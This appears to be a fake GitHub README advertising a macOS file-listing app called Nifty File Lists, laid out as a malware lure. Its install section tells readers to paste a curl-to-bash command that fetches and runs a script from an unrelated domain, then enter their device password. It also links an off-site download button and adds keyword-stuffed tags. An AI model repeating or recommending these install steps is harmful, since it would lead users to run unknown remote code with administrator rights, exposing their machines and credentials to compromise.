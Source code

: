 <p align="center">
  <img src="https://i.ibb.co/1trGtYMn/1633864955-niftyfilelists-icon.png" width="200" alt="Nifty File Lists macOS Banner" />
</p>

<h1 align="center">Nifty File Lists for macOS</h1>

<p align="center">
  📂 Generate customizable file and folder listings instantly. Export clean, styled lists in TXT, CSV, HTML, or Markdown.  
  <br><br>
  ✅ Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/252" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NIFTY%20FILE%20LISTS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Nifty File Lists for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/qMS8g6FX/1633864159-1.jpg" alt="Nifty File Lists Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Nifty File Lists for macOS?

**Nifty File Lists** is a powerful yet simple macOS tool that helps you generate detailed file and folder listings from any directory. Whether you’re building documentation, archiving projects, or just need a structured list of files, this utility does it instantly.

Export options include plain text, CSV, Markdown, and HTML — fully customizable with column selection, sorting, and formatting presets.

---

## ✅ Why Choose Nifty File Lists?

- 📋 **Generate Lists of Files & Folders Instantly**  
- 🧾 **Export to TXT, CSV, HTML, or Markdown**  
- 🔍 **Includes Size, Date, Type, and More**  
- 🛠️ **Column Picker and Sort Options**  
- 🧠 **Perfect for Catalogs, Indexing, Documentation**  
- 🍎 **Optimized for Apple Silicon (M1/M2/M3)**  
- 🖥️ **Clean macOS-native Interface**  
- 💼 **No Background Processes or Syncing**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/tPY3hF02/1633864157-2.jpg" alt="CSV Export Preview" />
  <br><br>
  <img src="https://i.ibb.co/h5X0jK9/1633864155-3.jpg" alt="Column Selection Panel" />
</p>

---

## 🚀 Key Features

- File/folder list generation  
- Multiple export formats  
- Selectable columns (name, size, type, date)  
- Drag-and-drop directory support  
- Custom styles for Markdown/HTML  
- Works offline  
- Built specifically for macOS  
- Batch support for large directories

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Nifty File Lists manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-CSV+TXT+HTML+MD-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Nifty File Lists – Structured Output, Fast

Thanks for using **Nifty File Lists for macOS**.  
Create clean file listings with precision and speed.

---

## 🧭 Usage Context

Nifty File Lists runs locally and works offline.  
Ideal for archivists, technical writers, project managers, or anyone needing structured file inventories.  
Output remains private and exportable in multiple formats.

---

## 🔍 Tags

```text
nifty file lists mac download, export folder list csv mac, file lister app for macos, generate file directory markdown html, mac app to list files and subfolders, batch file list export tool for mac, apple silicon compatible file lister, list files with size date type macos, download nifty file lists for ventura sonoma, file structure export macbook m1 m2, folder report generator mac utility, create html file index mac os, folder content documentation mac, best file list maker for mac developers, csv folder tree exporter for mac

